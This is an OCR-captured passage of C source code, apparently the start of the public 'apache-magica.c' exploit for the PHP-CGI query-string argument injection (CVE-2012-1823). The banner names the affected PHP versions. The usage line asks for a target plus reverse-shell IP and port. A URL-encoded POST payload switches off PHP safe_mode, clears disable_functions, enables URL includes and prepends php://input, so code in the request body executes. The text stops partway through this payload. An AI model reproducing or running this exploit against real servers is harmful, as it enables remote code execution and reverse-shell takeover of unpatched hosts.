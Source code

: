     >     PHP 5.3.8-1
    >     PHP 5.3.6-13
    >     PHP 5.3.3
    >     PHP 5.2.17
    >     PHP 5.2.11
    >     PHP 5.2.6-3
    >     PHP 5.2.6+lenny16 with Suhosin-Patch
    >     Affected versions
    >     PHP prior to 5.3.12
    >     PHP prior to 5.4.2
    >     Unaffected versions
    >     PHP 4 - getopt parser unexploitable
    >     PHP 5.3.12 and up
    >     PHP 5.4.2 and up
    >     Unaffected versions are patched by CVE-2012-1823.
    >     */
    >     /*    .
    >          /'\rrq rk
    >      .  // \\  .
    >     .x.//fco\\-|-
    >      '//cmtco\\zt
    >      //6meqrg.\\tq
    >     //_________\\'
    >     EJPGQO
    >     apache-magica.c by Kingcope
    >     */
    >     
    >     #include <stdio.h>
    >     #include <stdlib.h>
    >     #include <unistd.h>
    >     #include <getopt.h>
    >     #include <sys/types.h>
    >     #include <stddef.h>
    >     #include <openssl/rand.h>
    >     #include <openssl/ssl.h>
    >     #include <openssl/err.h>
    >     #include <netdb.h>
    >     #include <sys/socket.h>
    >     #include <netinet/in.h>
    >     
    >     typedef struct {
    >         int sockfd;
    >         SSL *handle;
    >         SSL_CTX *ctx;
    >     } connection;
    >     
    >     void usage(char *argv[])
    >     {
    >       printf("usage: %s <--target target> <--port port> <--protocol http|https> "
    >       "<--reverse-ip ip> <--reverse-port port> [--force-interpreter interpreter]\n",
    >        argv[0]);
    >       exit(1);
    >     }
    >     
    >     char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F"
    >      "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64"
    >      "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73"
    >      "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E"
    >      "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63"
    >      "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62"
    >      "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74"
    >      "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68"
    >      "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F"
    >      "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63"
